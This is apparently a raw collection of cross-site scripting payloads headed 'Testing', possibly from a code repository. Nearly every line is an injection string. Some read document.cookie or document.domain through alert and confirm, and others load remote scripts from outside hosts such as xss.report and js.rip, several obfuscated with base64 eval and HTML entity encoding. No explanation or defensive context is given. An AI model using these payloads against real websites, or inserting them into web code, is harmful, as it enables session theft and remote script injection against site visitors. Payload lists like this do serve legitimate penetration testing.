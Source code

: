 # Testing
"><script src="https://js.rip/e9w305gmql"></script>
<style>
{
   backgroundcolor:red;
}

"/>&lt;script>alert(document.cookie)&lt;/script>"/>

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\u002ex)alert(window\u002ex=document.cookie)')+eval(y)+\"'");}}}}

<script>alert(document.cookie)%0d%0a-->%09</script

' accesskey=X onclick=alert(document.domain) '

' onmouseover=alert(document.cookie) '

<img src=x onmouseover=confirm()>

‘%uff1cscript%uff1ealert(‘XSS’);%uff1c/script%uff1e’
#<img src=x onerror=alert(0)>

&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

'"; alert("XSS attack!"); //';

<img src=x onerror=alert(document.domain)>
'-alert(document.cookie)-';"-alert(document.domain)-"//"><svg/onload=alert(document.cookie)>
<img src=totallyfake onerror=alert(document.domain);//
<img src=x onerror=import(‘//evil.com/‘);//
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`document.domain`>%22%3E%3CSvg/onload=confirm`document.cookie`//<Script/src=//ChiragXSS.xSs.ht></scripT>


“><svg/onload=confirm(document.domain)>”@gmail.com
<svg onload=location='javascript:alert(document.domain)'>
"<script>alert(document.domain)</script>"@gmail.com
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
'"></title></textarea></script></style></noscript><script src=abc.xss.ht></script>

test+(<script>alert(document.domain)</script>)@gmail.com
"\/><img%20s+src+c=x%20on+onerror+%20="alert(document.domain)"\>
"><svg+svg+svg\/\/On+OnLoAd=confirm(document.domain)>


'"><script src=//xss.report/s/Ax01sec></script>
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
javascript:eval('var a=document.createElement(\'script\');a.src=\'//xss.report/s/Ax01sec\';document.body.appendChild(a)')
"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>
"><video><source onerror=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL0F4MDFzZWMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7>
"><iframe srcdoc="&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#118;&#97;&#114;&#32;&#97;&#61;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#114;&#101;&#97;&#116;&#101;&#69;&#108;&#101;&#109;&#101;&#110;&#116;&#40;&#34;&#115;&#99;&#114;&#105;&#112;&#116;&#34;&#41;&#59;&#97;&#46;&#115;&#114;&#99;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;xss.report/s/Ax01sec&#34;&#59;&#112;&#97;&#114;&#101;&#110;&#116;&#46;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#98;&#111;&#100;&#121;&#46;&#97;&#112;&#112;&#101;&#110;&#100;&#67;&#104;&#105;&#108;&#100;&#40;&#97;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;">
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//xss.report/s/Ax01sec");a.send();</script>

<script>$.getScript("//xss.report/s/Ax01sec")</script>
var a=document.createElement("script");a.src="//xss.report/s/Ax01sec";document.body.appendChild(a);


















